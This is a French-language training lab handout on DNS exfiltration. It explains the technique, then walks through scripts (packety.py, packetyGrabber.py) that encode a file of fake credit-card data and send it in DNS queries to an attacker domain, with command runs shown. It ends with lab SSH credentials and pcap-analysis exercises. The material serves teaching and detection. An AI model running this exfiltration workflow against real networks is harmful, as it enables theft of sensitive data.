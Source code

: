 # Exfiltration DNS

### Exfiltration DNS : Theorie 

- L'exfiltration DNS est une cyberattaque sur les serveurs via le DNS, qui peut être effectuée manuellement ou automatiquement en fonction de l'emplacement physique de l'attaquant et de la proximité des appareils cibles.   
- Dans un scénario manuel, les attaquants obtiennent souvent un accès physique non autorisé à l'appareil ciblé pour extraire des données de l'environnement.
- Alors que dans l'exfiltration DNS automatisée, les attaquants utilisent des logiciels malveillants pour effectuer l'exfiltration des données à l'intérieur du réseau compromis.

- Le service DNS est généralement disponible sur une machine cible et autorisant le trafic sortant généralement sur le port TCP ou UDP 53. Cela fait du DNS un candidat de choix pour les pirates informatiques à utiliser pour exfiltrer des données.

- L'exfiltration de données via DNS pourrait permettre à un attaquant de transférer un grand volume de données depuis l'environnement cible. De plus, l'exfiltration DNS est principalement utilisée comme moyen de **collecter des informations personnelles** telles que les numéros de sécurité sociale, la propriété intellectuelle ou d'autres informations personnellement identifiables.

- L'exfiltration DNS est principalement utilisée **en ajoutant des chaînes contenant le « butin » souhaité aux requêtes DNS UDP**. La chaîne contenant le butin serait alors envoyée à un serveur DNS malveillant qui enregistre ces requêtes.
- 
- Pour un œil non averti, cela pourrait ressembler à un trafic DNS normal ou ces demandes pourraient être perdues dans le mélange de nombreuses demandes DNS légitimes.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>
</p>

---

### Exfiltration DNS : Exemple

- Dans cet exemple de scénario, un attaquant essaie d'exfiltrer des données vers son système et a décidé que sa meilleure option serait d'utiliser des requêtes DNS. 
- L'objectif de l'attaquant est d'exfiltrer des informations sensibles d'une machine sur le réseau de SecureCorp. Dans cet exemple, nous montrerons les étapes qu'un attaquant pourrait suivre pour exfiltrer ces données de la machine compromise.

<img src="https://cdn.discordapp.com/attachments/798799811482353734/807298488881643550/exfil.png"/>

les informations de carte de crédit ont été générés via un faux générateur de cartes de crédit.   
Toutes les informations de carte de crédit sont fausses :)

**Important**
Vous aurez besoin de fichiers pour compléter le reste du TP.

[securecorp.txt](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/securecorp.txt)  
[packety.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py)  
[packetGrabber.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)  

1. Fichier texte contenant de faux numéros de carte de crédit, noms, adresses.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129675221958696/1.PNG"/>

**Partie encodeur-transmetteur DNS**

2. [packety.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packety.py)  

Lorsque packety.py est exécuté, vous devrez fournir au script l'entrée suivante :  

* Nom de fichier : (C'est le fichier que vous essayez d'exfiltrer du réseau de SecureCorp)  

* Nom de domaine : ( c'est ici que vous allez mettre votre nom de domaine, par exemple badbaddoma.in ). 

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129727180472340/2.1.PNG"/>  


`python packety.py   
`
`Filename: securecorp.txt   
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in 
`
`[+] Reading file.  
`
`[+] Base64 encoded.  
`
`[+] Base58 encoded.  
`
`Start transmitting... [PRESS ENTER KEY]    
`

- Le code commence par la lecture du fichier texte.   
- Le contenu du fichier texte sera d'abord encodé en Base64 puis en Base58. Cela nous laisse avec une longue chaîne encodée.  
- La chaîne est ensuite divisée en sections de 20 caractères où chaque section aura 3 caractères 'factices' ajoutés pour plus d'obscurcissement.   
- Un caractère sera ajouté au début de la chaîne encodée et deux caractères seront ajoutés.

- Par exemple, une section des données encodées pourrait ressembler à ceci : « 6gfghhjywsas3rg4hda3 ». Une fois les caractères supplémentaires ajoutés, il deviendra "x6gfghhjywsas3rg4hda3yu".
- Une fois que tout est encodé et prêt, le code attendra que l'utilisateur appuie sur "ENTREE" afin de commencer à transmettre les requêtes au serveur DNS.  
- Le serveur DNS a déjà été configuré pour capturer les requêtes entrantes avec 'Wireshark' ou 'tshark'.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129732692967474/3.PNG"/>

- Ensuite, il ne reste plus qu'à attendre que la transmission atteigne 100%. Si l'une des requêtes n'est pas livrée à temps et dans le bon ordre, les données exfiltrées seront incomplètes et inutiles pour l'attaquant.

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129738539565066/5.PNG"/>

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129741236502568/6.PNG"/>

**Partie decodeur-recepteur DNS**

3. [packetyGrabber.py](https://raw.githubusercontent.com/kleosdc/dns-exfil-infil/main/packetyGrabber.py)  

Le code demandera à l'utilisateur la saisie suivante :

* Fichier capturé : Il s'agit du fichier .pcap que vous avez capturé sur votre serveur DNS.

* Nom du fichier de sortie : il s'agit du nom du fichier dans lequel les données décodées seront enregistrées.

* Nom de domaine : Ce sera votre nom de domaine.  

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129744641622016/7.PNG"/>

`python3 ~/tools/packety/packetyGrabber.py      
`
`File captured: cap-credit-cards.pcap      
`
`Filename output: credit-cards.txt    
`
`Domain Name (Example: badbaddoma.in): badbaddoma.in.   
`
`[+] Domain Name set to badbaddoma.in.   
`
`[+] Filtering for your domain name.    
`
`[+] Base 58 decoded.    
`
`[+] Base 64 decoded.    
`
`[+] Output to credit-cards.txt.   
`
- Si tout se passe bien, qu'aucune requête n'a été perdue et que toutes les entrées sont correctes, un fichier avec les données décodées sera enregistré dans le même répertoire à partir duquel vous avez exécuté le code.  

<img src="https://cdn.discordapp.com/attachments/807129623846584321/807129748282933258/8.PNG"/>

---

### Exfiltration DNS : Pratique

**Se connecter à la machine cible en SSH**

Utiliser les crédentiels suivants :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

Aller dans le dossier ci-dessous et lire les instructions dans le fichier TASK :
```console
$ cd ~/challenges/exfiltration/orderlist
```

L'extension de fichier .pcap  est principalement associée avec Wireshark
les fichiers .pcap créés pas Woreshark contiennent les données en paquets d'un réseau. 

Ces fichiers sont utilisés principalement dans l'analyse des caractéristiques du réseau d'un certain données. Ils contribuent également à contrôler avec succès le trafic d'un certain réseau depuis qu'ils sont surveillés par le programme.

- Analyser le fichier order.pcap et détecter le fichier comportant des requêtes suspectes :
```console
Réponse : $ tshark ...
```

Le script `~/dns-exfil-infil/packetyGrabber.py` permet de decrypter les fichiers Wireshark.
```console
$ python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script.

Quel est le nom de la première transaction ? 
```console
Réponse : 
```

Quel est la valeur de la transaction Firewall ?
```console
Réponse : 
```

Aller dans le dossier ci-dessous :
```console
$ cd ~/challenges/exfiltration/identify/
```
Parmi les fichiers `*.pcap` analyser leur contenu :
```console
Réponse : $ tshark ...
```
Si vous peinez à réaliser la commande demander au formateur de vous la fournir



Quel fichier contient des requêtes DNS douteuses ? Pourquoi ?
```console
Réponse : 
```

```console
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Trouver le texte récupéré après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : 
```
